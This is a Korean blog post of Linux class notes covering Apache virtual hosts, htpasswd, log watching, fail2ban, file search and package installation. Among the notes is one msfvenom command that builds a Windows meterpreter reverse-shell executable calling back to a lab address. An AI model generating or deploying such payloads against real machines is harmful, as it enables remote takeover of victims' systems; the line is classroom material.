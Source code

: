 ```yaml
---
layout: post
title:  "2일차 Linux 수업정리"
date:   2019-03-23 
categories : unknown
---
```


---
## Virtual host: 하나의 도메인으로 여러 웹 사이트를 운영하는 기법
---
필요조건 - 호스트가 하나거나 도메인이 하나인 경우에 여러 웹 사이트를 운영할 수 있다. (IP-based, Name-based, Port-based 기법 사용)



---
### IP-based 실습
---
<VirtualHost 192.168.100.200:80>
 ServerAdmin admin@localhost
 DocumentRoot /var/www/xyz
 DirectoryIndex index.html
<Directory /var/www/xyz>
 Order allow,deny
 Allow from all
</Directory>
</VirtualHost>



---
### Round Robin, Load Balancing, Fault Tolerance
---
http://192.168.100.129 -> kahn.edu homepage
                   128 ->        "
                   127 ->        "

---


	* pid 관리 중요
	* 랜섬웨어 관련 change root(fake!)
	* sudo는 일시적으로 관리자로 변경
	* su - root 에서 - 붙여야 본인 디렉토리로 이동함
	* selinux는 미 국방부에서 만든것, 고급보안임 (set uid.. sticky bit..)
	* 설정을 다 했는데 인터넷 안되면 nslookup 명령어 
	* echo는 저장된 설정이 있으면 보여줘라 or 파일 만드는 명령어 


---
## .htpasswd .htaccess
---
> htpasswd -c /etc/httpd/conf/.htpasswd centos
> htpasswd /etc/httpd/conf/.htpasswd ubuntu


startx -> 그래픽으로 보여주는 명령어
msfvenom -p windows/meterpreter/reverse tcp lhost=192.168.100.131 lport=1234 -f exe > /root/Desktop/shell.exe



---
### 실시간으로 네트워크를 감시하는 명령어 
---
tail -f option! 
tail -f /var/log/syslog

백트랙의 해킹도구가 되는 근거는 바로 promiscuous mode
SNMP 네트워크 모니터링 

*영원히 접근 못하게 막는 기법*
jail2ban 
fail2ban



---
### 빈파일 만드는 명령어 
---
touch
echo > 
ex) touch xyz
ex) echo > xyzz



---
### 파일찾는 명령어
---
* find / -type f -name passwd (passwd파일을 찾고자 할때)
* locate passwd 
* which passwd (명령어를 찾을때는 which가 좋다)
* whereis passwd (관리자들이 많이 쓴다)
* find /home -type f -size 0 -exec ls -l {} \; (find 시작위치 type 타입 size 크기 exec 명령어)



---
### dpkg -i
---
* Debian 계열의 Debian, Ubuntu는 파일이 *.deb이다.
* dpkg -i *.deb로 설치한다.(별도로 이 *.deb파일을 다운받았을때)
* apt-get install abc하면 abc파일을 설치한다.(바로 웹에서 다운받아서 설치할 때)
* dpkg -r abc로 삭제한다.
* RedHat 계의의 Fedora, CentOS는 파일이 *.rpm,*.tar.gz, *.tar.bz2 이다. 
* tar xvfz *.tar.gz tar xvfj *.tar.bz2해서 설치한다.


